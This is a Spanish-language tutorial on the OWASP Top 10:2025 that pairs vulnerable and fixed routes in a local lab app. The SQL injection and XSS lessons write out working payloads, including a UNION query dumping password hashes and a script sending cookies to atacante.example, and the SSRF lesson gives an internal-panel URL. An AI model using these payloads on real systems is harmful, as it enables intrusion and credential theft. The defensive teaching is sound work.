


# titulo: Seguridad en aplicaciones web (OWASP)


# El OWASP Top 10

## Objetivos de aprendizaje

- **1.1** Conocer las categorías del OWASP Top 10:2025.
- **1.2** Aplicar los principios generales: no confiar en la entrada, mínimo privilegio y defensa en profundidad.
- **1.3** Situar la seguridad a lo largo del desarrollo.

Los ataques del tema se han reproducido contra una aplicación FastAPI **deliberadamente vulnerable**, ejecutada solo en `127.0.0.1`, que tiene una versión vulnerable (`/v/…`) y otra corregida (`/s/…`) de cada ruta. Practica estas técnicas únicamente en sistemas propios o con autorización expresa.

## La lista

**OWASP** (*Open Worldwide Application Security Project*) publica el **Top 10**, las diez categorías de riesgo más importantes en aplicaciones web, a partir de datos de vulnerabilidades reales. La edición vigente es la de **2025**:

| | Categoría | En este tema |
|---|---|---|
| A01 | Control de acceso roto (incluye SSRF y CSRF) | Lección 2 |
| A02 | Configuración de seguridad incorrecta | Lección 5 |
| A03 | Fallos en la cadena de suministro de software | Lección 5 |
| A04 | Fallos criptográficos | Lección 4 |
| A05 | Inyección (incluye XSS) | Lección 3 |
| A06 | Diseño inseguro | Esta lección |
| A07 | Fallos de autenticación | Lección 4 |
| A08 | Fallos de integridad del software o de los datos | Lección 5 y tema de CI/CD |
| A09 | Fallos de registro y alerta de seguridad | Lección 5 |
| A10 | Mala gestión de condiciones excepcionales | Lección 5 |

Respecto a 2021, el **control de acceso** sigue el primero y ahora absorbe SSRF; aparecen dos categorías: **cadena de suministro** (A03, que amplía la de componentes vulnerables) y **condiciones excepcionales** (A10: errores mal tratados, fallar abierto).

## Principios

Casi todas las categorías se reducen a unas pocas ideas:

- **No confíes en la entrada**: todo lo que llega de fuera (parámetros, cabeceras, cookies, ficheros, respuestas de otros servicios) puede estar manipulado. Valida y trátalo como dato, nunca como código.
- **Comprueba en el servidor**: ocultar un botón o validar en el navegador es comodidad, no seguridad.
- **Mínimo privilegio**: cada usuario, servicio y credencial con los permisos justos.
- **Denegar por defecto**: si no hay una regla que permita algo, se deniega.
- **Defensa en profundidad**: varias capas independientes; si falla una, quedan las otras.

## Diseño inseguro

A06 recuerda que algunos fallos no son errores de código, sino de **diseño**: una recuperación de contraseña basada en «preguntas de seguridad», un flujo de compra que no limita intentos, un sistema que confía en el precio que envía el cliente. Ninguna revisión de código los arregla. Se evitan con **modelado de amenazas** al diseñar: ¿qué puede salir mal?, ¿quién querría abusar de esto y cómo?

## La seguridad en el ciclo de desarrollo

| Momento | Práctica |
|---|---|
| Diseño | Modelado de amenazas, requisitos de seguridad (OWASP ASVS) |
| Código | Bibliotecas seguras por defecto, revisión entre pares |
| CI | Análisis de dependencias, de secretos y estático |
| Producción | Cabeceras, registro de eventos de seguridad, alertas |

## Puntos clave

- El Top 10:2025 lo encabeza el control de acceso, que ahora incluye SSRF y CSRF.
- Novedades: fallos en la cadena de suministro (A03) y mala gestión de condiciones excepcionales (A10).
- No confíes en la entrada, comprueba en el servidor, mínimo privilegio, denegar por defecto y defensa en profundidad.
- El diseño inseguro se evita pensando en las amenazas al diseñar, no revisando código.

## Referencias

- OWASP, [Top 10:2025](https://owasp.org/Top10/2025/).
- OWASP, [Application Security Verification Standard](https://owasp.org/www-project-application-security-verification-standard/).

# Control de acceso

## Objetivos de aprendizaje

- **2.1** Detectar y corregir referencias directas inseguras a objetos (IDOR).
- **2.2** Aplicar el control de acceso en el servidor y denegar por defecto.
- **2.3** Evitar la falsificación de peticiones del lado del servidor (SSRF).
- **2.4** Explicar CSRF y su mitigación.

## IDOR

Autenticar (saber **quién** eres) no es autorizar (saber **qué** puedes hacer). La ruta vulnerable comprueba el token, pero no de quién es el pedido:

```python
@app.get("/v/pedidos/{pid}")
def pedido_vulnerable(pid: int, authorization: str = Header()):
    usuario(authorization)                       # solo comprueba que hay sesión
    fila = bd.execute("select id, usuario, total from pedidos where id = ?", (pid,)).fetchone()
```

Ana, autenticada, pide el pedido 2:

```text
GET /v/pedidos/2   (token de ana)  →  {"id":2,"usuario":"luis","total":350.0}
```

Basta cambiar un número para ver los datos de otro. Es una **IDOR** (*Insecure Direct Object Reference*), uno de los fallos más frecuentes. La corrección filtra por el propietario **en la propia consulta**:

```python
fila = bd.execute("select … from pedidos where id = ? and usuario = ?", (pid, u)).fetchone()
if fila is None:
    raise HTTPException(404)
```

```text
GET /s/pedidos/2   (token de ana)  →  404
GET /s/pedidos/1   (token de ana)  →  {"id":1,"usuario":"ana","total":20.0}
```

Responder **404** y no 403 evita confirmar que el pedido 2 existe. Usar identificadores no consecutivos (UUID) dificulta adivinarlos, pero **no sustituye** a la comprobación.

## Reglas

- La comprobación va **en el servidor**, en cada petición, cerca de los datos.
- **Denegar por defecto**: una ruta sin regla explícita se rechaza. Mejor centralizar (un decorador, un filtro, `@PreAuthorize` en Spring) que repetir `if` en cada ruta.
- Comprobar también **las acciones**, no solo las lecturas: modificar, borrar, cambiar el precio, ascenderse a administrador.

## SSRF

Una función de «previsualizar enlace» descarga la URL que da el usuario. Desde **dentro** de la red, el servidor alcanza lo que el atacante no puede:

```text
GET /v/previsualizar?url=http://127.0.0.1:18202/admin
→ {"inicio":"\"PANEL INTERNO: claves=AKIA-EJEMPLO\""}
```

En la nube, el objetivo típico es el servicio de metadatos (`169.254.169.254`), que entrega credenciales temporales. La corrección usa una **lista de destinos permitidos**:



```nodos
ATK:
  titulo: Atacante
  texto: No alcanza la red interna, pero controla la URL que el servidor descarga.
RED:
  titulo: Red interna
  texto: Lo que el servidor ve desde dentro y el atacante no.
SRV:
  concepto: ssrf
ADM:
  titulo: Panel interno
  texto: En la prueba devolvió «PANEL INTERNO, claves=AKIA-EJEMPLO» a través de la previsualización.
MET:
  titulo: Servicio de metadatos
  texto: El objetivo típico en la nube, porque entrega credenciales temporales.
```

```python
p = urlparse(url)
if p.scheme != "https" or p.hostname not in PERMITIDOS:
    raise HTTPException(400, "destino no permitido")
httpx.get(url, timeout=3, follow_redirects=False)
```

```text
GET /s/previsualizar?url=http://127.0.0.1:18202/admin  →  {"detail":"destino no permitido"}
```

Sin seguir redirecciones, porque un dominio permitido podría redirigir a uno interno. Las listas de **prohibidos** («todo menos 127.0.0.1») fallan: hay muchas formas de escribir la misma dirección. Como capa adicional, limita por red a dónde puede conectar el servidor.

## CSRF

En **CSRF** (*Cross-Site Request Forgery*), una página maliciosa hace que el navegador de la víctima envíe una petición a tu sitio, y el navegador adjunta sus cookies de sesión. Defensas:

- Cookies de sesión con **`SameSite=Lax`** o `Strict`: el navegador no las envía en peticiones iniciadas desde otros sitios (salvo, con `Lax`, en navegaciones de nivel superior con GET).
- **Tokens anti-CSRF** en los formularios que cambian estado.
- No cambiar estado con GET.

Las APIs que se autentican con un token en la cabecera `Authorization` (no con cookies) no son vulnerables a CSRF, porque el navegador no añade esa cabecera solo.



```nodos
V:
  titulo: Navegador de la víctima
  texto: Adjunta las cookies del sitio aunque la petición la origine otra página. Esa es la raíz del problema.
MAL:
  titulo: Página maliciosa
  texto: No puede leer la respuesta ni la cookie. Le basta con provocar la petición.
SITIO:
  concepto: csrf
```

## Puntos clave

- Autenticar no es autorizar: comprueba la propiedad en cada petición, en el servidor.
- Filtra por propietario en la consulta y responde 404; los UUID no sustituyen a la comprobación.
- Deniega por defecto y centraliza las reglas.
- SSRF: lista de destinos permitidos, sin seguir redirecciones, y límites de red.
- CSRF: `SameSite`, tokens anti-CSRF y nada de cambios de estado por GET.

## Referencias

- OWASP, [A01:2025 Broken Access Control](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/).
- OWASP, [Authorization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html).
- OWASP, [SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).
- OWASP, [CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html).
- MDN, [Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie).

# Inyección y XSS

## Objetivos de aprendizaje

- **3.1** Explicar la causa común de toda inyección: mezclar datos con código.
- **3.2** Evitar la inyección SQL con consultas parametrizadas.
- **3.3** Evitar el XSS escapando la salida según el contexto.
- **3.4** Añadir una política de seguridad de contenido (CSP) como segunda capa.

## La causa común

Toda **inyección** tiene la misma raíz: un dato de entrada acaba **interpretado como código** (SQL, HTML, JavaScript, órdenes de la shell). La solución también es común: mantener los datos **separados** del código, con la API adecuada para cada intérprete.

## Inyección SQL

La ruta vulnerable construye la consulta concatenando:

```python
sql = f"select nombre from productos where oculto = 0 and nombre like '%{q}%'"
```

Con datos normales funciona. Con datos maliciosos:

```text
q=li                                              → ["libro"]
q=' or 1=1 --                                     → ["libro","lampara","prototipo secreto"]
q=x' union select nombre || ':' || clave from usuarios --
                                                  → ["ana:hash-de-ana","luis:hash-de-luis"]
```

El primer ataque se salta el filtro de productos ocultos (`--` comenta el resto). El segundo, con `UNION`, saca datos de **otra tabla**: la de usuarios y sus contraseñas.

La corrección es una **consulta parametrizada**: el texto SQL lleva un marcador `?` y el valor viaja aparte, así que nunca se interpreta:

```python
sql = "select nombre from productos where oculto = 0 and nombre like ?"
bd.execute(sql, (f"%{q}%",))
```

```text
q=' or 1=1 --   →  []      (busca literalmente ese texto)
```

Los ORM (JPA, SQLAlchemy) parametrizan por defecto, **salvo** que se concatene texto en una consulta nativa. Escapar comillas a mano no es una alternativa fiable. Para lo que no se puede parametrizar (el nombre de una columna para ordenar), usa una lista de valores permitidos.

## XSS

En el **XSS** (*Cross-Site Scripting*), el intérprete es el **navegador**:

```python
return f"<p>Hola, {nombre}</p>"
```

```text
nombre=<script>fetch("https://atacante.example/?c="+document.cookie)</script>
→ <p>Hola, <script>fetch("https://atacante.example/?c="+document.cookie)</script></p>
```

Quien abra ese enlace ejecuta el script del atacante en tu dominio: puede leer datos de la página, actuar en nombre del usuario o robar cookies accesibles desde JavaScript. La corrección es **escapar la salida**:

```python
f"<p>Hola, {html.escape(nombre)}</p>"
# → <p>Hola, &lt;script&gt;alert(1)&lt;/script&gt;</p>
```

El escape depende del **contexto**: no es lo mismo dentro de HTML, de un atributo, de JavaScript o de una URL. Por eso conviene usar **plantillas que escapan por defecto** (Jinja2, Thymeleaf, React) y desconfiar de lo que lo desactiva (`|safe`, `th:utext`, `dangerouslySetInnerHTML`, `innerHTML`).

## CSP

La ruta segura también envía:

```text
content-security-policy: default-src 'self'
x-content-type-options: nosniff
```

**CSP** indica al navegador de dónde puede cargar scripts y otros recursos; con `default-src 'self'`, los scripts en línea inyectados no se ejecutan. Es una **segunda capa**: no sustituye al escape, pero limita el daño si se escapa algo.

## Puntos clave

- Toda inyección mezcla datos con código; la solución es mantenerlos separados.
- Consultas parametrizadas siempre; con concatenación, `' or 1=1 --` y `UNION` expusieron productos ocultos y contraseñas.
- Escapa la salida según el contexto y usa plantillas que escapan por defecto.
- CSP como segunda capa contra XSS.

## Referencias

- OWASP, [A05:2025 Injection](https://owasp.org/Top10/2025/A05_2025-Injection/).
- OWASP, [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).
- OWASP, [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).
- OWASP, [Content Security Policy Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html).
- MDN, [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

# Autenticación y criptografía

## Objetivos de aprendizaje

- **4.1** Guardar contraseñas con una función lenta y con sal.
- **4.2** Proteger las sesiones con los atributos de las cookies.
- **4.3** Reforzar la autenticación: MFA, límites de intentos y contraseñas.
- **4.4** Aplicar la criptografía de forma correcta: TLS y bibliotecas probadas.

## Contraseñas

Las contraseñas **nunca** se guardan en claro ni cifradas (se podrían descifrar): se guarda un **hash**. Pero no cualquier hash. Medido en el laboratorio:

```text
SHA-256: 0.24 µs por intento → 4,152,575 intentos/s
Argon2id: 37.2 ms por intento → 27 intentos/s
Argon2id es unas 154,468 veces más lento
```

SHA-256 está diseñado para ser **rápido**, y eso ayuda al atacante: con una tarjeta gráfica, prueba miles de millones de contraseñas por segundo contra una base de datos robada. **Argon2id** está diseñado para ser **lento y consumir memoria** (la biblioteca `argon2-cffi` usa por defecto 3 pasadas, 64 MiB y 4 hilos). Para un usuario que inicia sesión, 37 ms no se notan; para un atacante, multiplica el coste por cien mil.

```python
from argon2 import PasswordHasher

ph = PasswordHasher()
h = ph.hash("secreto")       # $argon2id$v=19$m=65536,t=3,p=4$fuWgflvBbQJYnublMlp6zw$ofe1On…
ph.verify(h, "secreto")      # True
ph.verify(h, "Secreto")      # VerifyMismatchError
```

- Cada hash lleva una **sal** aleatoria: dos usuarios con la misma contraseña tienen hashes distintos (comprobado: `True`), y las tablas precalculadas no sirven.
- El hash guarda sus **parámetros**, así que se pueden endurecer con el tiempo y volver a calcular al iniciar sesión.

OWASP recomienda **Argon2id** con al menos 19 MiB de memoria, 2 iteraciones y paralelismo 1; si no está disponible, scrypt, y bcrypt para sistemas heredados.

## Sesiones y cookies

| Atributo | Efecto |
|---|---|
| `HttpOnly` | JavaScript no puede leer la cookie: un XSS no la roba directamente |
| `Secure` | Solo se envía por HTTPS |
| `SameSite=Lax` | No se envía en peticiones iniciadas desde otros sitios (lección 2) |

Además: identificador de sesión largo y aleatorio, **renovarlo** al iniciar sesión, caducidad por inactividad y cierre de sesión que la invalide en el servidor.

## Autenticación robusta

- **MFA** (segundo factor): la medida más eficaz contra contraseñas robadas. Preferibles las llaves de acceso (*passkeys*) o una aplicación de autenticación a los SMS.
- **Límites de intentos** y retrasos crecientes contra la fuerza bruta y el relleno de credenciales.
- **Contraseñas**: la guía NIST SP 800-63B pide longitud mínima y comprobarlas contra listas de contraseñas filtradas, en vez de reglas de composición y cambios periódicos obligatorios.
- **Mensajes neutros**: «usuario o contraseña incorrectos», sin revelar cuál de los dos falla.
- Mejor aún, delegar en un proveedor de identidad (OIDC con Keycloak o Entra ID, en sus temas).

## Criptografía

- **TLS** en todas las conexiones, también las internas; HSTS para que el navegador no vuelva a HTTP.
- **No inventes** criptografía: usa bibliotecas probadas y sus valores por defecto modernos.
- Algoritmos obsoletos (MD5, SHA-1 para firmas, DES) fuera.
- Claves y secretos en un gestor de secretos, nunca en el código ni en el repositorio.
- Números aleatorios para seguridad con un generador criptográfico (`secrets` en Python, `SecureRandom` en Java), no con `random`.

## Puntos clave

- Contraseñas con Argon2id: 27 intentos por segundo frente a más de 4 millones con SHA-256.
- La sal hace distintos los hashes de contraseñas iguales; el hash guarda sus parámetros.
- Cookies de sesión con `HttpOnly`, `Secure` y `SameSite`; renuévala al iniciar sesión.
- MFA, límites de intentos y comprobación contra contraseñas filtradas.
- TLS en todo, bibliotecas probadas y generadores aleatorios criptográficos.

## Referencias

- OWASP, [Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html).
- OWASP, [Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html).
- OWASP, [A04:2025 Cryptographic Failures](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) y [A07:2025 Authentication Failures](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/).
- NIST, [SP 800-63B-4: Authentication and Authenticator Management](https://pages.nist.gov/800-63-4/sp800-63b.html).

# Configuración, dependencias y errores

## Objetivos de aprendizaje

- **5.1** Evitar las configuraciones inseguras más comunes.
- **5.2** Vigilar las dependencias y la cadena de suministro.
- **5.3** Tratar los errores sin filtrar información y fallando cerrado.
- **5.4** Registrar los eventos de seguridad y alertar.

## Configuración (A02)

Fallos típicos:

- **Modo depuración** en producción, con trazas y consolas interactivas.
- Credenciales **por defecto** (`admin/admin`) o servicios de administración expuestos a Internet.
- Listados de directorios, ficheros de copia (`.bak`, `.git/`) accesibles.
- Faltan **cabeceras** de seguridad: `Content-Security-Policy`, `Strict-Transport-Security`, `X-Content-Type-Options: nosniff`.
- CORS abierto a cualquier origen con credenciales.
- Permisos de nube demasiado amplios (un almacenamiento público por error).

La defensa es **automatizar** la configuración (infraestructura como código, imágenes base endurecidas) para que cada entorno sea igual y revisable, en vez de ajustar servidores a mano.

## Dependencias y cadena de suministro (A03)

La mayor parte del código que ejecutas no lo has escrito tú. `pip-audit` 2.10 sobre `requests==2.19.0`:

```text
requests 2.19.0  PYSEC-2018-28   2.20.0
requests 2.19.0  PYSEC-2023-74   2.31.0
requests 2.19.0  PYSEC-2026-1873 2.32.0
requests 2.19.0  PYSEC-2026-1872 2.32.4
requests 2.19.0  PYSEC-2026-2275 2.33.0
```

Cinco avisos de seguridad con su versión corregida. Medidas:

- **Análisis en la CI**: `pip-audit`, `npm audit`, OWASP Dependency-Check, Dependabot o Renovate para proponer actualizaciones.
- **Fichero de bloqueo** y versiones fijadas: sabes exactamente qué ejecutas.
- **SBOM** (lista de componentes, por ejemplo en formato CycloneDX) para saber en minutos si te afecta un aviso nuevo.
- Cuidado con los paquetes **maliciosos**: nombres parecidos a los populares (*typosquatting*), mantenedores comprometidos. Revisa antes de añadir dependencias.
- Proteger la **tubería** misma: acciones fijadas por SHA, permisos mínimos y artefactos firmados (tema de CI/CD; A08 cubre la integridad del software y los datos).

## Errores (A10)

**Filtrar información**. La ruta vulnerable devuelve detalles internos al fallar:

```text
GET /v/dividir?a=1&b=0
→ {"error":"ZeroDivisionError('division by zero')","consulta":"select * from cuentas where saldo > 0","version":"sqlite 3.53.1"}
```

Tipos de excepción, consultas y versiones ayudan a un atacante a preparar el siguiente paso. FastAPI, por defecto, responde solo `500 Internal Server Error` ante una excepción no capturada: el cliente recibe un mensaje genérico y el detalle va al **registro del servidor**, con un identificador para relacionarlos.

**Fallar abierto**. Un control de permisos que, ante un error, **permite**:

```python
def puede_ver_abierto(usuario, recurso):
    try:
        return consultar_permisos(usuario, recurso)
    except Exception:
        return True          # falla abierto

def puede_ver_cerrado(usuario, recurso):
    try:
        return consultar_permisos(usuario, recurso)
    except Exception:
        return False         # falla cerrado
```

Con el servicio de permisos caído, el primero devolvió `True` y el segundo `False`. Un fallo del control de seguridad nunca debe conceder acceso. Lo mismo vale para transacciones a medias: si un paso falla, deshaz los anteriores.

## Registro y alertas (A09)

Sin registro, un ataque pasa inadvertido durante meses. Registra los **eventos de seguridad**: inicios de sesión fallidos y correctos, cambios de permisos, accesos denegados, errores de validación repetidos. Con usuario, origen y `trace_id`, y **sin** contraseñas ni tokens (tema de observabilidad). Y **alerta** cuando hay patrones: cientos de accesos denegados de una misma IP, un pico de 404 en `/s/pedidos/…` (alguien enumerando).

## Puntos clave

- Sin modo depuración ni credenciales por defecto en producción; cabeceras de seguridad; configuración automatizada.
- Analiza las dependencias en la CI, fija versiones y mantén un SBOM.
- Al cliente, errores genéricos; el detalle, al registro.
- Los controles de seguridad fallan cerrados.
- Registra los eventos de seguridad y alerta por patrones.

## Referencias

- OWASP, [A02:2025 Security Misconfiguration](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/).
- OWASP, [A03:2025 Software Supply Chain Failures](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/).
- OWASP, [A09:2025 Security Logging and Alerting Failures](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/).
- OWASP, [A10:2025 Mishandling of Exceptional Conditions](https://owasp.org/Top10/2025/A10_2025-Mishandling_of_Exceptional_Conditions/).
- OWASP, [HTTP Security Headers Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTTP_Headers_Cheat_Sheet.html) y [Error Handling Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Error_Handling_Cheat_Sheet.html).
